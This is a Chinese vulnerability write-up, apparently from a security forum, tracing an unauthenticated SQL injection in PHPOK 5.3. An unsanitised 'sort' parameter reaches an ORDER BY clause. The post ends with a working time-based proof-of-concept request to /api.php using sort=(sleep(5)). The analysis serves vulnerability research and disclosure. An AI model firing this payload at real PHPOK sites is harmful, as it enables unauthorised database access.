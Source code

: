 

# 某 OK 5.3 最新版前台无限制注入（二） - 先知社区

某 OK 5.3 最新版前台无限制注入（二）

- - -

最近跟了一下最新 phpok，分享一下挖掘思路  
下载地址：[https://www.phpok.com/phpok.html](https://www.phpok.com/phpok.html)

## 分析

注入点：framework/model/list.php#arc\_all

```plain
public function arc_all($project,$condition='',$field='*',$offset=0,$psize=0,$orderby='')
    {
        if($this->_total > 100000 && $offset > 10000){
            return $this->_arc_all($project,$condition,$field,$offset,$psize,$orderby);
        }
        $sql  = " SELECT ".$field." FROM ".$this->db->prefix."list l ";
        $sql .= " JOIN ".$this->db->prefix."list_".$project['module']." ext ";
        $sql .= " ON(l.id=ext.id AND l.site_id=ext.site_id AND l.project_id=ext.project_id) ";
        if($project['is_biz']){
            $sql .= " LEFT JOIN ".$this->db->prefix."list_biz b ON(b.id=l.id) ";
        }
        if($project['cate'] && $project['cate_multiple']){
            $sql.= " LEFT JOIN ".$this->db->prefix."list_cate lc ON(l.id=lc.id) ";
        }
        if($condition){
            $sql .= " WHERE ".$condition." ";
        }
        // 拼接$orderby 参数
        if($orderby){
            $sql .= " ORDER BY ".$orderby." ";
        }
        if($psize){
            $sql .= " LIMIT ".intval($offset).",".$psize;
        }
        //注入
        $rslist = $this->db->get_all($sql,'id');
        if(!$rslist){
            return false;
        }
        return $this->_arc_list_format($rslist,$project);
    }
```

回溯寻找调用链：`framework/phpok_call.php#_arclist`

```plain
private function _arclist($rs,$cache_id='')
{
    // 264 行
    $orderby = $rs['orderby'] ? $rs['orderby'] : $project['orderby'];

    // 270行 调用arc_all函数，将$orderby传入
    $rslist = $this->model('list')->arc_all($project,$condition,$field,$offset,$psize,$orderby);
```

回溯：framework/api/project\_control.php#load\_module

```plain
private function load_module($rs,$parent_rs='')
{
    // 91 行
    $keywords = $this->get("keywords");
    $ext = $this->get("ext");
    $tag = $this->get("tag");
    $uid = $this->get('uid','int');
    $attr = $this->get('attr');
    //价格，支持价格区间
    $price = $this->get('price','float');
    $sort = $this->get('sort');

    //186行
    if($sort){
        $dt['orderby'] = $sort;  // 可控
        $pageurl .= '&sort='.rawurlencode($sort);
        $this->rlist['sort'] = $sort;
    }
    // 208行，通过phpok函数动态调用_arclist()函数
        $info = $this->call->phpok('_arclist',$dt);
```

继续回溯，找谁调用了`load_module()`：framework/api/project\_control.php#index\_f

```plain
public function index_f()
{
    //65 行
        if($project["module"]){
        $this->load_module($project,$parent_rs);
    }
}
```

在控制器里以`_f`结尾的函数都可以直接被调用  
构造 poc:`/api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5))`

## 复现：

poc:

```plain
GET /api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5)) HTTP/1.1
Host: phpok5_3_147
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3833.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4; XDEBUG_SESSION=PHPSTORM
Connection: close
```

[![](assets/1698897419-d8d551571c42b7171795183b67315a8f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191125161910-41ae0d4c-0f5c-1.png)

sleep(4) 延时 24 秒

[![](assets/1698897419-2829c308c3d4dab07ce78f72d9d3075e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191125161958-5ea36afa-0f5c-1.png)

数据库特性，查出几列数据 order by 会 sleep 几倍时间：

[![](assets/1698897419-73d4f92ece8eed456733913c74df7b11.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191125162025-6e6c7df0-0f5c-1.png)
